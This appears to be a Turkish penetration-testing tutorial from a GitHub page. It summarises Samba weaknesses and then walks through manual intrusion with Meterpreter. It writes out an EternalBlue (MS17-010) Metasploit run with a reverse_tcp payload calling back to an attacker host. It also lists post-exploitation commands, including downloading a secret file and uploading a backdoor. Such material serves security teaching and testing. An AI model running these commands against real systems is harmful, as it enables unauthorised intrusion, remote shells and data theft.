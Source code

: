 ### 🚀 Sonuç
### ✔ Samba servisi 445 ve 139 portlarını kullanır.
✔ Nmap ile açık portları ve zafiyetleri tarayabilirsiniz.
✔ Yetkisiz erişim testleri için smbclient ve rpcclient kullanılabilir.
✔ CVE-2017-7494 gibi güvenlik açıkları manuel olarak istismar edilebilir.
✔ Erişim sağlandıktan sonra yetki yükseltme ve sistem kontrolü yapılabilir.
____________________________________________________________________________________________________________________________________________________________________________
### 📌 Meterpreter ile Manuel Sızma Testi
Meterpreter, Metasploit Framework'ün bir bileşeni olup, hedef sistemde sessizce çalışarak gizli ve esnek bir erişim sağlar. Manuel sızma testi yaparken Meterpreter kullanarak sistem üzerinde kontrol sağlayabilir, dosya yönetebilir, ağ taramaları yapabilir ve hatta yetki yükseltebilirsiniz.

### 📌 1. Meterpreter Nedir?
### ✔ Metasploit içinde çalışan bir payload’dır.
✔ Hafızada çalışır, diske yazılmadığı için tespiti zordur.
✔ Dinamik olarak genişletilebilir, ek modüllerle daha fazla yetenek kazanabilir.
✔ TCP, HTTP, HTTPS gibi protokollerle iletişim kurabilir.

### 📌 2. Meterpreter ile Manuel Sızma Aşamaları
🔹 1. Exploit Kullanarak Hedef Sisteme Sızma
Öncelikle hedef sistemin açıklarını tespit etmelisiniz. Bunun için Nmap veya Metasploit kullanılabilir:
```bash
nmap -sV -p 445,139 <hedef_IP>
```
Eğer sistemde SMB veya başka bir serviste açıklık varsa, buna uygun exploitler kullanılabilir.
Metasploit'i başlatın:
```bash
msfconsole
```
Örnek olarak EternalBlue (MS17-010) SMB Exploiti ile saldırı:
```bash
use exploit/windows/smb/ms17_010_eternalblue
```
set RHOSTS <hedef_IP>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <saldırı_makinesi_IP>
set LPORT 4444
exploit
Eğer başarılı olursa, Meterpreter Shell açılır.

🔹 2. Meterpreter ile Hedef Sistemi Yönetmek
Bağlantının sağlanıp sağlanmadığını kontrol et:
```bash
sysinfo
```
whoami
Bu komutlar hedef sistemin işletim sistemi, sistem adı ve aktif kullanıcıyı gösterir.
### 📌 Dosya Sistemi Yönetimi:
```bash
pwd               # Bulunduğun dizini gösterir
```
ls                # Klasör içeriğini listeler
cd C:\\Users      # Windows’ta dizin değiştirir
download secret.txt  # Dosya indirir
upload backdoor.exe  # Dosya yükler
### 📌 Ağ Bilgilerini Alma:
```bash
ipconfig          # Ağ arayüzlerini gösterir
```
route             # Yönlendirme tablolarını gösterir